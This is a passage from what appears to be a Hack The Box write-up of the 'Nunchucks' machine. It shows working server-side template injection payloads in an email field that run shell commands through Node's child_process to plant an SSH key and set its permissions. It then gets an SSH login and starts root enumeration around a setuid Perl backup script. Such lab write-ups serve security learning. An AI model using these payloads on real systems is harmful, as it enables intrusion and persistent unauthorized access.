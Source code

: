 
Now add my public key:

    
    
    {"email":"0xdf{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('echo ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing > /home/david/.ssh/authorized_keys')\")()}}@htb.htb"}
    

Next set the permissions to 600:

    
    
    {"email":"0xdf{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('chmod 600 /home/david/.ssh/authorized_keys')\")()}}@htb.htb"}
    

And now I can connect over SSH:

    
    
    oxdf@parrot$ ssh -i ~/keys/ed25519_gen david@nunchucks.htb
    ...[snip]...
    david@nunchucks:~$
    

## Shell as root

### Enumeration

There’s no obvious `sudo` abilities or interesting SetUID/SetGID binaries.

There is an interesting file in `/opt`:

    
    
    david@nunchucks:/opt$ ls -l
    total 8
    -rwxr-xr-x 1 root root  838 Sep  1 12:53 backup.pl
    drwxr-xr-x 2 root root 4096 Sep 26 01:18 web_backups
    

This file is doing a backup of the web directories into `/opt/web_backsup`:

    
    
    #!/usr/bin/perl
    use strict;
    use POSIX qw(strftime);
    use DBI;
    use POSIX qw(setuid); 
    POSIX::setuid(0); 
    
    my $tmpdir        = "/tmp";
    my $backup_main = '/var/www';
    my $now = strftime("%Y-%m-%d-%s", localtime);
    my $tmpbdir = "$tmpdir/backup_$now";
    
    sub printlog
    {
        print "[", strftime("%D %T", localtime), "] $_[0]\n";
    }
    